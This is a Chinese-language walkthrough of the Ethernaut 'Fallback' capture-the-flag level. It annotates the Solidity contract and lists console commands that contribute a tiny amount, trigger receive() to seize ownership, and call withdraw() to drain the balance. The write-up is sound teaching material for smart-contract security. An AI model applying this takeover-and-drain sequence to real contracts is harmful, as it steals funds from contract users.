

## 1. 信息：

### 1.1. 提示信息
进入这一关后，首先可以看到提示：
> [!提示]
> > Look carefully at the contract's code below.
> > 
> > You will beat this level if
> > 
> > 1. you claim ownership of the contract
> > 2. you reduce its balance to 0
> > 
> >   Things that might help
> > 
> > - How to send ether when interacting with an ABI
> > - How to send ether outside of the ABI
> > - Converting to and from wei/ether units (see `help()` command)
> > - Fallback methods 

### 1.2. 合约代码
直接看合约代码(直接在代码里通过注释的方式，分析代码的功能)：
```Solidity
// SPDX-License-Identifier: MIT
// `pragma` specifies the compiler version of Solidity.
pragma solidity ^0.8.0;           

contract Fallback {    // 合约名称为：`Fallback`
	// 将地址`address`映射到无符号256位整数`uint256`,这个映射的名字是 `contributions`.
	// 关键字 `public` 表示Solidity会自动为这个映射生成一个gatter函数，使外部和内部一样可以通过调用`contributions(address)`来查询某个地址对应的uint256值
	// 这个 `mapping` 的功能是记录每个地址的贡献值
    mapping(address => uint256) public contributions;
    
    // 声明一个公开的地址状态变量 `owner`，关键字 `public` 的作用还是生成gatter函数. 
    address public owner;

	// 构造函数，部署合约时只执行一次
    constructor() {
		// 让部署者成为owner，`msg.sender` 中存储的是当前函数调用者的地址
        owner = msg.sender;
        // 调用这段代码开头的 `contributions` 函数，owner拥有1000ETH的初始贡献（注意：这里是以wei为单位，所以实际是1000*10^18 wei）
        contributions[msg.sender] = 1000 * (1 ether);
    }

	// 这是一个修饰器
    modifier onlyOwner() {
	    // `require` 是用来条件检查语句，
        require(msg.sender == owner, "caller is not the owner");// 只有拥有者可以调用，否则回滚交易并清空所有Gas
        _;         // 原函数体的插入位置
    }

	// `payable` 函数是可以接收ETH的函数
    function contribute() public payable {
        require(msg.value < 0.001 ether);    // 要求每次贡献的金额小于0.001 ether
        contributions[msg.sender] += msg.value;    // 累加发送者的贡献值
        // 这个 `if` 用来判断如果当前发送者的贡献值超过当前拥有者的贡献值，则更新拥有者为当前发送者
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

	// `view` 函数只读取数据，在链外调用时，不消耗Gas
    function getContribution() public view returns (uint256) {
        //  返回当前发送者的贡献值
        return contributions[msg.sender];
    }
	
	// `onlyOwner` 修饰器负责权限控制，只用owner可以调用
	// **address(this).balance**：合约当前的ETH余额
	// **payable转换**：将address转换为payable address以接收ETH
	// **transfer函数**：发送ETH到指定地址（2300 Gas限制，自动失败）
    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

	//- **receive函数**：专门处理纯ETH转账的特殊函数
	//- **external可见性**：只能从外部调用
	//- **payable**：可以接收ETH
	//- **条件限制**：需要发送ETH且发送者已有贡献记录
	//- **所有权转移**：满足条件时立即成为新owner
    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

## 2. 分析

### 2.1. 合约代码逻辑分析
>和合约代码逻辑 && 漏洞利用逻辑
> 从函数 “contribute()" 可以看出 "owner" 的贡献为 1000 ETH 。有一种变成 "owner" 的方式是贡献大于当前 "owner" 的 1000 ETH。显然不太可能。
> 那么还有一种方式就是通过 "receive()" 函数，观察代码可知，当贡献已大于0，并且再发送大于0的金额时，就会被设置成 "owner" 。



## 3. 攻击 
### 3.1. 点击网页下方的 “生成新实例”

### 3.2. 进入web控制台
> 浏览器中按 "F12" 即可。

### 3.3. 分别查看合约的 "owner" 以及 "owner" 的贡献
```
await contract.owner()
```

```
await contract.contributions('0x9CB391********************').then(v => v.toString())
```

### 3.4. 贡献一个小于0.001的数字
> 满足 ”贡献不为0“ 的条件
```
await contract.contribute.sendTransaction({ from: player, value: toWei('0.0009')})
```

> 验证
```
await contract.getContribution().then(v => v.toString())
```

### 3.5. 发送非0以太币发送至合约:
> 满足第二个条件后触发函数 "receive()" ，身份被设置为了 "owner"
```
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')})
```

### 3.6.确认一下
> 现在 "owner" 的地址应该是自己的地址了
```
await contract.owner()
```

### 3.7. 提款跑路
> 通过 "withdraw()" 函数撤销合约中的余额。
```
await contract.withdraw()
```

### 3.8. 提交实例


> [!NOTE]
> >  山高水长，路在脚下。
> >  
> > 心向远方者，魂无所牵，昂首即达。